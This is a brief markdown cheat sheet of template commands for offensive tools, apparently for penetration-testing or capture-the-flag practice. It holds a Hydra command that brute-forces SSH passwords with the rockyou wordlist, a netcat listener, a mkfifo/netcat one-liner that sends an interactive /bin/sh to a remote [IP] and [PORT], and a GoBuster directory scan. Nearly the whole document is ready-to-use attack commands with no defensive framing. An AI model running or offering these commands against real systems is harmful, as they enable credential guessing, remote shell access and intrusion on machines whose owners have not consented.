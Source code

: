 # Common Tools Template Commands
## Author: JamesB9
## Description: 
File containing commands that to use for each tools. Change the commands to suite individual needs and use cases.

### Hydra

	hydra -l [username] -P /usr/share/wordlists/rockyou.txt [IP] -t 4 ssh
	
### NETCAT

	nc -lvnp [PORT]
	mkfifo /tmp/lol;nc [IP] [PORT] 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
	
### GoBuster

	gobuster dir -w /usr/share/wordlists/dirb/big.txt -u [URL] -x "html,php"
